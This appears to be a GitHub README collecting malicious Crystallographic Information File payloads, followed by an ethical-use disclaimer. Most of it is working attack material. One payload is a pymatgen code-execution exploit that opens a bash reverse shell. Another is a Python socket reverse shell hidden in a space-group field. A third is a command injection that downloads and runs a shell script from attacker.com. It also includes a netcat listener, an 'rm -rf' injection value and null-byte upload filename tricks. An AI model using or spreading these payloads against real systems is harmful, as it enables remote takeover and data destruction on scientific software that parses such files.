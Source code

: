 **🌟 Special thanks to:** [DeadDroid403](https://github.com/deaddroid403) _and_ [Boltx099](https://github.com/Boltx099) 

_______________________________________________________________________________

# CIF (Crystallographic Information File) Payloads
----
<p align="center">
  <img src="https://png.pngtree.com/png-vector/20231020/ourmid/pngtree-watercolor-purple-crystal-png-image_10287355.png" alt="logo">
</p>


- **CIF File with Embedded Python Reverse Shell: 1**
```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/192.168.10.15/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

- **CIF File with Embedded Python Reverse Shell: 2**
```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M ';python3 -c "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\'192.168.1.100\',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\'/bin/bash\')" #'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

- **Malicious CIF File:**
```cif
data_test
_audit_creation_method '$(wget http://attacker.com/shell.sh -O /tmp/shell.sh && bash /tmp/shell.sh)'
loop_
_atom_site_label
_atom_site_fract_x
_atom_site_fract_y
_atom_site_fract_z
C 0.1 0.2 0.3
```
Start the listener:

```bash
nc -lnvp 4444 # Start the listener on the attacker side
```


- **Command injection:** If the backend parses the CIF file and interacts with a shell or external commands, inject malicious values
```cif
_cmd_field $(rm -rf /tmp)
```

- **Invalid Data Types:** Break expected numeric or textual fields.
```cif
_numeric_field not_a_number
```

- **File Upload Exploitation:**
```plaintext
malicious.cif%00.png
malicious.png#.cif
```

## ⚠️ Warning: Ethical Use Only!
> This repository contains CIF (Crystallographic Information File) payloads designed for security research and ethical hacking purposes only.

## Use Responsibly

> These payloads are intended only for educational purposes, penetration testing, and demonstrating potential vulnerabilities, with the explicit permission of the system owner.
> Unauthorized use of these payloads on systems without proper authorization is illegal and may result in severe consequences, including legal actions.

## Disclaimer
> The author of this repository does not take any responsibility for any misuse or damages caused by these payloads. By using these payloads, you agree to use them at your own risk and to ensure all activities are compliant with local, state, and federal laws.

> ⚠️ Proceed only if you are authorized and understand the ethical implications. ⚠️
